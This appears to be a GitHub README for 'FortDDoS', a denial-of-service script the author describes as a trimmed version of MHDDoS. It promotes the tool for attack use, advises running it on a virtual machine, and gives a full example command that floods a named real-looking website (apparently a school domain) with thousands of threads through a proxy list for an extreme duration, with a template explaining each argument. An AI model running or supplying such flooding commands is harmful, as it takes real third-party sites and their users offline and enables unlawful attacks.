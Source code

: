 # FortDDoS
FortDDoS is a script combinated with MHDDoS and me,this script is better than MHDDoS,i removed some trash code,and so effective methods,this script is so laggy,use a virtual machine.
#Usage
#Use on a virtual machine
#Usage
#python3 (Linux) python (Windows)
#Usage
#Python 3.8
#Usage
#python FortDDoS.py getv2 https://iesllompart.cat 1 6000 http.txt 9999999999999999999999 10000
#python (Name File) (Method) (Url to attack) (socks type,reccomended 1) (threads,reccomended 5000 or more) (multiple,reccomended more than 100k)(seconds,10k or the time you want)
